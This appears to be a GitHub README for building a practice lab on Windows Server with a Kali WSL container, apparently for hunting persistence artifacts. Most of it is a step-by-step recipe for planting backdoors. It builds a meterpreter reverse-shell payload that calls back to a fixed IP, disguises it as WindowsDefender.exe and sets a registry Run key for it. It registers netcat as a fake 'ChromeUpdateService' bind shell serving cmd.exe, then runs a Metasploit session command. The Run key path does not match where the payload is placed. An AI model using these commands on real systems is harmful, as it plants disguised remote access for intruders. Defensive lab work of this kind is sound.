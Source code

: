 # Installation

- [Installation](#installation)
  - [Setup](#setup)
  - [Install Kali Container](#install-kali-container)
  - [Artifact 1: Reverse Shell in Registry](#artifact-1-reverse-shell-in-registry)
    - [Kali Linux](#kali-linux)
    - [Windows](#windows)
  - [Artifact 2: Bind Shell service](#artifact-2-bind-shell-service)
    - [Kali Linux](#kali-linux-1)
    - [Windows](#windows-1)
  - [C2](#c2)

---

## Setup

The VM is using the **Windows Server 2019 with Container**.

<br/>

---

## Install Kali Container

First download **Kali Linux** and **Ubuntu 20.04** from the following site:

- https://docs.microsoft.com/en-us/windows/wsl/install-manual

<br/>

Run `powershell.exe` as admin and execute the following command:

```
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
```

<br/>

Extract `<distro>.appx` using Powershell:

```
Rename-Item .\kali.appx .\kali.zip
Expand-Archive .\kali.zip .\kali
cd .\kali
Rename-Item .\Distro.....-amd64.appx .\kali.zip
Expand-archive .\kali.zip .\kali
cd .\kali
```

<br/>

Then run kali:

```
.\kali.exe
```

<br/>

Get the keyring deb link from https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb.

```
wget https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb
sudo apt install .\kali-archive-keyring_2020.2_all.deb
```

<br/>

Update packages:

```
apt update -y && apt upgrade -y && apt dist-upgrade -y
apt install kali-linux-core -y
```

<br/>

---

## Artifact 1: Reverse Shell in Registry

### Kali Linux

Prepare a reverse shell using `msfvenom` on Kali Linux:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.31.15.180 LPORT=4444 -f exe > WindowsDefender.exe
```

<br/>

Shift this on the Windows host `C:\Windows\System32\WindowsDefender.exe`

<br/>

### Windows

Open `cmd.exe` and run:

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsDefender /t REG_SZ /d "C:\Program Files\Defender\WindowsDefender.exe"
```

<br/>

---

## Artifact 2: Bind Shell service

### Kali Linux

Copy the `nc.exe` in `/usr/share/windows-binaries/nc.exe` to the Windows host `C:\ProgramData\Chrome\ChromeUpdate.exe`.

<br/>

### Windows

Create a service and start the service:

```
sc create ChromeUpdateService binpath= "cmd.exe /k C:\ProgramData\Chrome\ChromeUpdate.exe -L -p 2222 -e cmd.exe" start= auto
```

<br/>

---

## C2

Kali:

```
sessions -c "msg administrator hello"
```